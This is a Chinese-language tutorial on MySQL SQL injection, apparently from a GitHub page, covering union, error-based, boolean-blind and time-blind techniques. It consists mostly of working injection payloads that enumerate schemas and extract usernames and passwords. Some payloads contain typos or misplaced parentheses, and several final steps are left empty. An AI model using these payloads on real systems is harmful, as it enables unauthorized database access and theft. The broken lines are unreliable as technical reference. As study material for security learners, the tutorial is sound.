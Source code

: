 ## SQL注入之MySQL

### 一、联合注入
联合查询就是SQL语法中的union select语句。该语句会同时执行两条select语句，生成两张虚拟表，然后把查询到的结果进行拼接。</br>
select ~~~~~~ union select~~~~~~</br>
由于虚拟表是二维结构，联合查询会“纵向”拼接，两张虚拟的表。</br></br>
 **-- （1）判断注入点**</br>
我们在可能存在SQL注入变量的后边添加以下payload：
```text
and 1=1 / and 1=2     --回显页面不同(整形判断) 
单引号判断‘            --显示数据库错误信息或者页面回显不同(整形,字符串类型判断) 
 \                    --(转义符) 
-1/+1                 --回显下一个或上一个页面(整型判断)
```
**-- （2）判断注入点为整型还是字符型**</br>
```text
输入and 1=1和and 1=2后发现页面没有变化，判断不是整型注入。</br>
输入’ and 1=1 %23和 ‘ and 1=2%23后发现页面变化，判断为字符注入。</br>
```
**-- （3）使用order by推断字段数，即表中列的数量**
 ```text
order by 4%23        查看页面变化，页面报错说明没有4列，没有保存说明有4列，继续下一个数字的尝试
```
**-- （4）使用union，确认显示位，即会显示的字段**
 ```python
id=-1' union select 1,2,3    查看页面显示1,2,3的位置，即显示位
```
**-- （5）获取数据库名**
 ```python
id=-1' union select 1,database(),3      我们得出了数据库名叫security
```
**-- （6）获取数据库表名**
 ```python
id=-1' union select 1,(select table_name from information_schema.tables where table_schema='security' limit 3,1),3
```
**-- （7）获取数据库表中所有字段**
 ```python
id=-1' union select 1,(select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),3
```
**-- （8）获取字段中数据**
 ```python
id=-1' union select 1,select( username from users limit 1,1),(select password from users limit 1,1)
```
### 二、报错注入
<font color=#FF000 >1、使用extractvalue函数</font></br>

**-- （1）查询数据库名字（用户user()；版本version()）**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select database()),0x7e))%23
```
**-- （2）查询数据库有多少个表**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e))%23
```
**-- （3）查询数据库的表名，limit后面第一个数字表示第几个表**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e))%23
```
**-- （4）查询列名，limit后数字表示第几列**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e))%23
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='emails'),0x7e))%23
```
**-- （5）查询表里面某列的内容**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(id) from security.emails),0x7e))%23
```
<font color=#FF000 >2、使用updatexml函数</font></br>

**-- （1）查询数据库名字，数据库名字为security（用户user()；版本version()）**
```Python
?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23		
```
**-- （2）查询数据库有多少个表**
```Python
?id=1' and updatexml(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23	
```
**-- （3）查询数据库的表名，limit后第一个数字表示第几个表**
```Python
?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)%23	
```
**-- （4）查询列名，limit后数字表示第几列**
```Python
?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e),1)%23	
```
**-- （5）查询表里面某列的内容**
```Python
?id=1' and updatexml(1,concat(0x7e,(select group_concat(email_id) from security.emails),0x7e),1)%23	
```



### 三、布尔盲注
**-- 1#获得数据库名长度为8**
```Python
?id=1' and (length(database())=8)%23		#有回显
```
**-- 2#获得数据库名**
```Python
?id=1' and ascii(substr(database(),1,1))<100 %23		#无回显
?id=1' and ascii(substr(database(),1,1))=115 %23		#有回显
```
**-- 3#获得数据库表名个数**
```Python
?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4%23	#有回显
```
**-- 4#获得数据库表名长度**
```Python
?id=1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=6%23	
```
**-- 5#获得数据库表名**
```Python
?id=1' and ascii((substr ((select table_name from information_schema.tables where table_schema=database() limit 0,1),0,1)))=106%23
```
**-- 6#获取列名**</br>

**-- 7#获得数据**

### 四、时间盲注
**1#获得数据库名长度**
```Python
?id=1' and if((length(database())>5),sleep(5),1)%23	    #有时间延迟，说明判断正确
?id=1' and if((length(database())>9),sleep(5),1)%23	    #无时间延迟，说明判断错误
?id=1' and if((length(database())>5),1,sleep(5))%23	    #无时间延迟，说明判断正确
```
**2#获得数据库名**
```Python
?id=1' and if((ascii(substr(database(),1,1))>100,sleep(5),1))%23		#有无回显
```
**3#获得表名（同理先获取长度）**
```Python
?id=1' and if((asscii(substr((select table_name from information_schame.tables where table_schame=database() limit 0,1),1,1)))>100,sleep(5),1)		#有无回显
```
**4#获取数据库列名（先拿列长度？）**
```Python
?id=1' and if
```
**5#获取数据**
```Python
?id=1' and if
```
